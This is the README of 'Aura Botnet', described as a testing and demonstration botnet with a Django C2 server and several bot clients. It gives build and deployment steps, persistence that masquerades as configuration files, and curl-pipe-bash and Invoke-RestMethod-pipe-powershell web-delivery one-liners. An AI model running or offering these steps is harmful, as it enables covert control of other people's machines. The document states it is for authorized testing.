 # Aura Botnet

C2 Server
---
The botnet's C2 server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes. The server and database are contained within the [`aura-server`](aura-server)
folder.
* Django includes a very intuitive and powerful admin site that can be used
for managing bots and commands
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx

The admin site located at `http://your_server:server_port/admin` can be
accessed after setting up a superuser (see below).

Database
---
The C2 server is currently configured to use a SQLite3 database,
`bots.sqlite3`. The current configuration can be changed in [`aura-server/aura/settings.py`](aura-server/aura/settings.py).
You may wish to use MySQL, or even PostgreSQL instead; this easy to do thanks
to Django's portable database API.

Bot Clients
---
The primary client is written in C++, and can be compiled for either Linux or
Windows using CMake. Alternate clients are written in Rust, Bash, and Powershell,
but are may lack certain functionality as they are mostly unsupported. I will fix
any major bugs that come to my attention, but they will continue to lack certain
features for the time being, such as running commands in different shells.

The client will gather relevant system information and send it to the C2 server
to register the new bot. Identification is done by initially creating a file
containing random data -- referred to as the *auth file* throughout the code -- which
will then be hashed each time the client runs to identify the client and
authenticate with the C2 server. It will then install all the files in the
folder specified in the code, and initialize the system service or schedule a
task with the same privileges that the client was run with. The default settings
have the client and other files masquerading as configuration files.

Getting Started: C2 Server
---
### Docker
The Docker image can be found [here](https://hub.docker.com/r/watersalesman/aura-c2/).
Follow the instructions below to run the server normally.

### From Git
To initialize the SQLite3 database, simply change into the [`aura-server`](aura-server)
directory and run:
```
./manage.py migrate
```
After the database is initialized, create a superuser for the admin site by
running
```
./manage.py createsuperuser
```
More information on configuring database
and the admin site can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Finally, run the following to start the server:
```
./runserver.sh
```
[`runserver.sh`](aura-server/runserver.sh) is just a wrapper around `manage.py runserver` with some default
options that runs the server on port 41450. This can be easily edited or
bypassed altogether.

Geting Started: Bot Clients
---
The client executable or script need to be run in the same folder as
any necessary components (systemd services for Linux clients and launcher.vbs
for Powershell) on the target machine, or installed via web delivery (see
below).

You can choose whichever client you feel is most appropriate for the platform
and use case, although specified above, the C++ client is the first priority
when it comes to features and stability.

### C++ Client
There are three header-only projects being used for this client. Thanks to the
following projects for their awesome work:
* [okdshin/PicoSHA2](https://github.com/okdshin/PicoSHA2/) -
A header-file-only, SHA256 hash generator in C++
* [Tencent/rapidjson](https://github.com/Tencent/rapidjson/) -
A fast JSON parser/generator for C++ with both SAX/DOM style API
* [catchorg/Catch2](https://github.com/catchorg/Catch2/) -
A modern, C++-native, header-only, test framework for unit-tests, TDD and BDD

If the repo was not cloned with the `--recursive` flag, pull the mentioned
dependencies by running:
```
git submodule update --init --recursive
```

For the Linux C++ client, you will also need *libcurl* installed with
development files. There may be a *libcurl-devel* or *libcurl-dev* package on
your distro that you need to install.

Afterward, change into the source directory ([`aura-client`](aura-client)).
Then build by running:
```
cmake .    # Run with "-DCMAKE_BUILD_TYPE=Debug" to build tests
make
```

For building the Windows C++ client, you can find various methods of using
CMake on Windows
[here](http://preshing.com/20170511/how-to-build-a-cmake-based-project/).

Catch2 unit tests can be found under [`aura-client/tests/`](aura-client/tests/).
Do not run them in parallel. They rely on constant filenames and may interfere
with each other.

### Rust Client
For the Rust client, you will need Rust installed on the platform that you wish
to compile for. Unfortunately, there is no simple method of cross-compiling that
I am aware of. Go into the source directory ([`alt-clients/rust/rust-linux`](alt-clients/rust/rust-linux) or
[`alt-clients/rust/rust-windows`](alt-clients/rust/rust-windows) and run:
```
cargo build --release
```
The binary will be sent to `client/rust-*/target/release/`.

### Powershell and Bash
The Powershell and Bash clients simply need to be executed on the target
machine.

Configuring Commands
---
These can easily be managed through the Django admin site or shell. The
client periodically communicates with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands are
received as a JSON object specifying the shell to run the command in, and
the command to execute.

Commands can be set to run for specific bot groups defined by operating
system and user privilege.  This is specified in
[`aura-server/groups.json`](aura-server/groups.json).
The only reserved group numbers are `-1`, for priority commands that are
run by all bots, and `-2`, for default commands that are run by all bots
only if there is no other command to run; you can also assign commands to
individual bots using the hash of their auth file.

Each command can be given a start time and end time. Oneshot commands will
only run once on each bot.

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Other Notes
---
Because this is for testing purposes, the C2 server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

TODO
---
* Support for sending file dependencies for commands through JSON

<h2>This repo is for testing/demonstration purposes only. This is not meant to
be implemented in any real world applications except for testing on authorized
machines.</h2>
